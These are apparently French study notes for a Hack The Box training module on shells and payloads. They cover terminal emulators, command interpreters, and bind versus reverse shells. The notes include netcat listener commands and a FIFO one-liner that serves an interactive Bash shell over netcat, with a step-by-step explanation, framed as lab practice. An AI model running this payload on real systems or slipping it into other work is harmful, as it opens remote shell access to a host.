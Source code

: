 ```yaml
---
title: Shells & Payloads
description: 
published: true
date: 2025-05-17T14:18:30.489Z
tags: htb, module
editor: markdown
dateCreated: 2025-05-04T16:19:33.360Z
---
```


# Shells & Payloads

Date de complétion: XX/XX/XXXX

# Shells Jack Us In, Payloads Deliver Us Shells

Un shell est un programme qui fournit à un utilisateur une interface où entrer des instructions et voir la sortie texte. Les shell les plus connus étant Bash, Zsh, PowerShell ou encore cmd.

## Why Get a Shell?

Le shell permet un accès direct au système d'exploitation, aux commandes système et au système de fichiers. Une fois que nous avons un shell, nous pouvons rechercher des vecteurs d'élévation de privilèges, de pivotement, de transfert de fichiers, et plus encore. Sans un shell, nos actions sur une machine cible sont limitées.

Avoir un shell permet aussi de maintenir une persistance sur le système, offrant ainsi plus de temps pour travailler et facilitant l'utilisation des outils d'attaque, l'exfiltration de données, et la documentation de l'attaque. De plus, l'accès au shell en ligne de commande (CLI) est plus discret que l'accès à un shell graphique via VNC ou RDP. Les interfaces en ligne de commande sont plus rapides, plus difficiles à détecter et plus faciles à automatiser.

Le terme de shell possède plusieurs perspectives:

| **Perspective** | **Description**                                                                                                                                                          |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Général**     | Environnement en ligne de commande utilisé pour administrer des tâches sur un PC (ex : Bash, PowerShell).                                                                |
| **Sécurité**    | Un shell peut être obtenu en exploitant une vulnérabilité pour obtenir un accès interactif à un hôte (ex: EternalBlue).                                                  |
| **Web**         | Un shell web exploite des vulnérabilités, comme le téléchargement d'un fichier ou script, pour permettre à l'attaquant de donner des instructions via des requêtes HTTP. |

## Payloads Deliver us Shells

Le terme "payload" peut être défini de différentes manières:

- Réseau : La partie contenant les données d'un paquet.
- Général: La partie d'un jeu d'instructions qui définit l'action à entreprendre.
- Programmation: La portion de données transportée par une instruction dans un langage de programmation.
- Sécurité: Le code créé pour exploiter une vulnérabilité dans un système informatique, incluant différents types de malwares.

# Anatomy of a Shell

Chaque système d'exploitation dispose d'un ou plusieurs shell. Pour intéragir avec un shell il faut utiliser un programme appellé émulateur de terminal (Terminal Emulator).

Voici quelques émulateurs de terminaux:

| **Émulateur de terminal** | **Système d'exploitation** |
| ------------------------- | -------------------------- |
| Windows Terminal          | Windows                    |
| cmder                     | Windows                    |
| PuTTY                     | Windows                    |
| kitty                     | Windows, Linux et MacOS    |
| Alacritty                 | Windows, Linux et MacOS    |
| xterm                     | Linux                      |
| GNOME Terminal            | Linux                      |
| MATE Terminal             | Linux                      |
| Konsole                   | Linux                      |
| Terminal                  | MacOS                      |
| iTerm2                    | MacOS                      |

Cette liste ne recense pas tous les émulateurs de terminal existants, mais elle présente certains des plus utilisés.
Beaucoup étant open source, il est possible de les installer sur d'autres systèmes d'exploitation que ceux prévus à l'origine. Le choix d’un émulateur de terminal dépend avant tout des préférences personnelles et du style de travail.
Sur les machines cibles, l’émulateur disponible dépendra généralement de celui intégré nativement au système.

## Command Language Interpreters

Un interpréteur de langage de commande (Command Language Interpreter) traduit en temps réel les instructions données par l'utilisateur pour les transmettre au système d'exploitation. Une interface en ligne de commande (CLI) fait donc référence au système d’exploitation, l’émulateur de terminal et l’interpréteur de commandes.

Il en existe plusieurs types, aussi appelés langages de script shell (shell scripting languages) ou interpréteurs de commandes et de scripts (Command and Scripting interpreters).

Connaître l’interpréteur utilisé sur un système donné nous aide aussi à savoir quelles commandes et quels scripts employer.

## Hands-on with Terminal Emulators and Shells

Dès l'ouverture de l'application MATE Terminal, celle-ci s'est ouverte avec un interpréteur de commandes préconfiguré.
Le symbole `$`, visible dans l'invite de commande, indique l'utilisation probable de Bash (ou d’un shell similaire comme Ksh ou POSIX).
Lorsque du texte aléatoire est saisi, Bash répond qu’il ne reconnaît pas la commande, ce qui montre que chaque interpréteur a ses propres commandes.

Une autre manière d’identifier l’interpréteur utilisé est de consulter les processus en cours d'exécution sur la machine avec `ps` ou de regarder la variable d'environnement `SHELL`.

Il est aussi possible d'ouvrir PowerShell avec l'application MATE Terminal, Cela montre qu'il est possible d'utiliser des interpréteurs de commandes différents pour un émulateur de terminal.

# Bind Shells

Dans de nombreux cas, l’objectif est d’obtenir un accès à un shell sur un système local ou distant.
Pour cela, on utilise le l'émulateur de terminal sur la machine attaquante pour controller le système distant à travers son shell. Cela est le plus souvent effectué via un Bind/Reverse shell.

## What Is It?

Avec un Bind Shell, le système cible écoute les connexions entrantes.

Cela peut poser des problèmes:

- Le listener doit être démarré
- Des règles strictes de pare-feu et du NAT en bordure de réseau, ce qui implique qu’il faut déjà être sur le réseau interne pour contourner ces protections.
- Les Pare-feu logiciels peuvent bloquer rles connexions entrantes.

## Practicing with GNU Netcat

Démarrer le listener pour écouter sur le port 7777.

```
nc -lvnp 7777
```

Établir une session TCP et envoyer un message.

```
nc -nv <ip> 7777
<message>
```

## Establishing a Basic Bind Shell with Netcat

Après avoir vu comment envoyer du texte entre le client et le serveur, nous allons voir comment servir un shell pour établir un vrai Bind Shell.

Exemple pour lier un shell Bash à la session TCP avec nc et un canal nommé FIFO:

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <ip cible> <port cible> > /tmp/f
```

1. **`rm -f /tmp/f`**
   Supprime le fichier `/tmp/f` s’il existe déjà.

2. **`mkfifo /tmp/f`**
   Crée un pipe nommé (FIFO) pour permettre la communication entre processus.

3. **`cat /tmp/f | /bin/bash -i`**
   Envoie les commandes lues du pipe à un shell interactif Bash.

4. **`2>&1`**
   Redirige les erreurs vers la sortie standard pour tout récupérer.

5. **`| nc -l 10.129.41.200 7777`**
   Envoie la sortie du shell à Netcat, qui écoute sur l’IP et le port donnés.

6. **`> /tmp/f`**
   Redirige ce que Netcat reçoit vers le pipe.

La commande ci-dessu est donc considérée comme le payload.

Nous avons établi avec succès une session bind shell. Cela a été réalisé sans aucune mesure de sécurité en place (comme les routeurs avec NAT, pare-feux matériels, WAF, IDS/IPS, pare-feux système, antivirus, ou mécanismes d'authentification).

Il ne faut pas oublier qu'il est plus facile de se défendre face à un Bind Shell puisque les connexions entrantes sont d'avantage détectables.

# Reverse Shells

Avec un Reverse Shell, le système cible initie les connexions.

De nombreux payload sont disponibles en ligne, comme le [Reverse Shell Cheat Sheet](
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/).
